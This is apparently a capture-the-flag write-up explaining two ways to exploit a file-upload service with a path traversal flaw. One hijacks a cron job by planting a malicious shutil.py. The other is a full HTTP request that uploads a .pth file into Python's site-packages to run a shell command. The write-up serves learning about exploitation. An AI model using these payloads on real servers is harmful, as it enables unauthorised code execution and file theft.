

# Filesharing
We get a service where we can upload files to, this service has a path traversal vulnerability which allows us to place any file in any directory. However overwriting files is not possible.

Additionally a cron job python script runs every 2 minutes which cleans up files in the uploads folder.

People solved this challenge in different ways, I thought that it was a bit open ended. 

## Solution 1 (From some participant)
Read the cron job in /app/cleanup.py as

```python
import os
import shutil

# specify the folder
folder = '/app/files/'

# loop through all the files in the folder
for filename in os.listdir(folder):
    file_path = os.path.join(folder, filename)
    try:
        if os.path.isfile(file_path) or os.path.islink(file_path):
            os.unlink(file_path)  # remove the file or link
        elif os.path.isdir(file_path):
            shutil.rmtree(file_path)  # remove the directory
    except Exception as e:
        print('Failed to delete %s. Reason: %s' % (file_path, e))

print("Cleanup completed.")
```
Notice that we can write to `/app` and that the script imports `shutil` and uses the `rmtree()` function. Then simply craft an evil `shutil.py` with an evil `rmtree()` function and put it in the `/app` folder and wait for the cron job to execute.

## Solution 2, my intended solution.
Some time ago I came across the following twitter post.
https://twitter.com/SinSinology/status/1646937361597739008

He uploads some pictures to show how to get code execution if you can upload a file to a server, which then executes python3.




and I think this was cool to learn.

So the solution was to upload a malicious `.pth` python script to the `/usr/local/lib/python3.9/site-packages/` directory. Here is the post request:

```
POST / HTTP/1.1
Host: site.local:5000
Content-Length: 280
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYfB3shde11wST3Ce

------WebKitFormBoundaryYfB3shde11wST3Ce
Content-Disposition: form-data; name="file"; filename="../../../usr/local/lib/python3.9/site-packages/lol.pth"
Content-Type: application/octet-stream

import os;os.system("cat /flag* > /app/static/index.html")

------WebKitFormBoundaryYfB3shde11wST3Ce--```

and then browse to the front page to read the html.